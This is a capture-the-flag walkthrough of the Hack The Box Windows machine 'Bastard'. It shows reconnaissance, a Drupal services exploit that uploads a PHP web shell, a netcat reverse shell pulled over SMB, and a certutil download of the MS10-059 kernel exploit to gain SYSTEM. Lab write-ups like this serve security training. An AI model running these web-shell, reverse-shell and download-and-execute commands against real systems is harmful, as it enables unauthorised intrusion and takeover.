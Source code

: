 # Bastard 

**OS:** Windows

**Level:** Medium

**Links:** [1](https://www.hackthebox.com/machines/Bastard)  [2](https://app.hackthebox.com/machines/Bastard)

**Machine ip:** 10.10.10.9

![Bastard](https://github.com/h4md153v63n/CTFs/assets/5091265/84d54684-632c-4ac5-ac8e-146a4b2d7267)


## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.9 -e tun0 > ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.9 --open
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/3af46416-e08d-4b5c-bdfb-0d8a16c4e1fb)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c9205d7a-b825-43c2-b71b-15b0456a3bb3)


## Enumeration
Visit **http://10.10.10.9**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/cf5880f4-a25e-4c05-9b77-86ee83268cc1)

Check **http://10.10.10.9/CHANGELOG.txt**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5163edd8-e04c-472a-bd4e-45e64c7c4083)


## Exploitation & Gaining Access

### Method 1: Drupal CVE:N/A [1](https://www.exploit-db.com/exploits/41564)

Run searchsploit:

```
searchsploit drupal 7.x

searchsploit -m 41564
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d11fa67b-28a5-4a61-a50f-57a97b5b080c)

Exploit CVE:N/A [1](https://www.exploit-db.com/exploits/41564):

```
gobuster dir -e -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.9/ -k -n -r -t 10 --exclude-length 1233
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0ccab42b-9061-43f5-9c20-7b7c06453c46)

Test **http://10.10.10.9/rest** on the browser or using **curl**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/575bf492-5f0d-4771-b1b2-9a4d444580b6)

Modify the below lines in the exploit code:

```
$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'cmd.php',
    'data' => '<?php system($_GET["cmd"]); ?>'
];
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/b01489e0-aa1c-4305-ae2f-d9ae3dbd4b2b)

Run the exploit: `php 41564.php`

In case of **PHP Fatal error:  Uncaught Error: Call to undefined function curl_init()** error, run `sudo apt install php-curl` to install **php-curl**:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/293cb05e-6870-46cc-812d-1185ac050fa2)

Rerun the exploit: `php 41564.php`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ab1d4ce6-aee4-4848-ba58-e3312d37e1c2)

It creates 2 files: **session.json** and **user.json**. 

Execute **http://10.10.10.9/cmd.php?cmd=whoami%20/all**

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/557645c5-3039-4d4c-ab37-c4e5a0a724b8)

```
# On the kali attack vm: Start smbserver to share a copy of nc.exe
smbserver.py win /usr/share/windows-binaries/

# On the kali attack vm: Start netcat listener
nc -lnvp 4444

# Trigger the netcat revershell on the browser:
http://10.10.10.9/cmd.php?cmd=\\10.10.14.24\win\nc.exe -e cmd.exe 10.10.14.24 4444
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/dcb8eaec-0ef3-4de7-b6ac-29859f8eecd4)

Get the revershell, and read user flag:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/652b50a0-4934-4ecd-8c70-20636bc5ac0d)


### Method 2: Drupal Session Cookie Bypass and Code/Command Injection
Check the different solution [1](https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/bastard-writeup-w-o-metasploit#id-03d0)


## Privilege Escalation
Run `systeminfo` command:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c0ed2707-e0cb-481d-b467-a6d5aaaf90df)

Run Windows Exploit Suggester:

```
# On the kali attack vm:
python2 windows-exploit-suggester.py --update

python2 windows-exploit-suggester.py --database 2024-04-14-mssb.xls --systeminfo systeminfo.txt
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1c85b903-336c-44b0-8e07-07b9f66c9861)

There are many exploits for privilege escalation here, but for now try **MS10–059**.

Download [exploit](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe), and transfer to the target victim, then prepare netcat listener, and run the **MS10–059.exe**:

```
# On the kali attack vm:
sudo python3 -m http.server 80

nc -lnvp 5555

# On the target machine:
certutil.exe -urlcache -split -f "http://10.10.14.24/MS10-059.exe" MS10-059.exe

MS10-059.exe 10.10.14.24 5555
```

Get the shell as **nt authority\system**, and read the root flag:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7d279287-cbd6-42b2-8a42-fa6be81d17b6)


# References & Alternatives
+ https://vvmlist.github.io/#Bastard
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/bastard-writeup-w-o-metasploit
+ https://0xdf.gitlab.io/2019/03/12/htb-bastard.html
+ 


## CVE Scripting
+ **Drupal:** CVE:N/A [1](https://www.exploit-db.com/exploits/41564)
+ **MS10–059:**
    + https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe 


## Tools
+ **netcat:** https://eternallybored.org/misc/netcat/


## Technical Knowledge
+  


## Problems Solution
+ **PHP Fatal error:  Uncaught Error: Call to undefined function curl_init():** 
  + https://stackoverflow.com/questions/6382539/call-to-undefined-function-curl-init
  + https://enginetemplates.com/call-to-undefined-function-curl_init/


## For More
+ https://www.ambionics.io/blog/drupal-services-module-rce
